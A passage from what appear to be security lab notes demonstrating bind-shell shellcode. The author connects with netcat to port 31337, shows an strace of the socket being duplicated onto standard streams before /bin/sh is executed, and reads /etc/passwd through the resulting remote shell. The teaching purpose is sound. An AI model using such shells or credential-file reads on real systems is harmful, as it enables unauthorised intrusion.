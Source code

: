 Then I can connect remotely:

``` {.example}
[aviv@potbelly] 15 >netcat 192.168.56.101 31337
```

Which will cause the accept() to complete:

``` {.example}
(...)
accept(3, 0, NULL)                      = 4
dup2(4, 0)                              = 0
dup2(4, 1)                              = 1
dup2(4, 2)                              = 2
execve("/bin//sh", [0], [/* 0 vars */]) = 0

```

And on the remote server, I can now do as I please:

``` {.example}
[aviv@potbelly] 15 >netcat 192.168.56.101 31337
cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
usbmux:x:103:46:usbmux daemon,,,:/home/usbmux:/bin/false
dnsmasq:x:104:65534:dnsmasq,,,:/var/lib/misc:/bin/false
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
kernoops:x:106:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
rtkit:x:107:114:RealtimeKit,,,:/proc:/bin/false
saned:x:108:115::/home/saned:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/sh
avahi:x:111:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
lightdm:x:112:118:Light Display Manager:/var/lib/lightdm:/bin/false
colord:x:113:121:colord colour management daemon,,,:/var/lib/colord:/bin/false
hplip:x:114:7:HPLIP system user,,,:/var/run/hplip:/bin/false
pulse:x:115:122:PulseAudio daemon,,,:/var/run/pulse:/bin/false
user:x:1000:1000:user,,,:/home/user:/bin/bash
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
sshd:x:116:65534::/var/run/sshd:/usr/sbin/nologin
aviv:x:1001:1001:Adam Aviv,,,:/home/aviv:/bin/bash
```
